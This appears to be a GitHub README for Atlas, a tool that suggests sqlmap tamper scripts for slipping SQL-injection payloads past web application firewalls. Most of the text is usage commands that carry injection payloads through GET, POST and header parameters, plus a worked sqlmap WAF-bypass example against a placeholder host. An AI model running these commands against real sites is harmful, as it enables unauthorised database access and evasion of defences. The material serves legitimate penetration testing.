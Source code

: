 # Atlas

Atlas - Quick SQLMap Tamper Suggester v1.0
Atlas is an open source tool that can suggest sqlmap tampers to bypass WAF/IDS/IPS, the tool is based on returned status code.

atlas_main

Screen
atlas_run

Installation
$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py # python3+
Usage
$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
injection point (with %%inject%%):

get:

$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
post:

$ python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
headers:

$ python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
tampers concatenation:

$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
get tampers list:

$ python atlas.py -g
Example
Run SQLMap:
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
sqlmap

Price_ASC') AND 8716=4837 AND ('yajr'='yajr is blocked by WAF/IDS/IPS, now trying with Atlas:

$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
atlas_succ

At this point:

$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
The new Update get will soon stay updated
$ BurpSuite
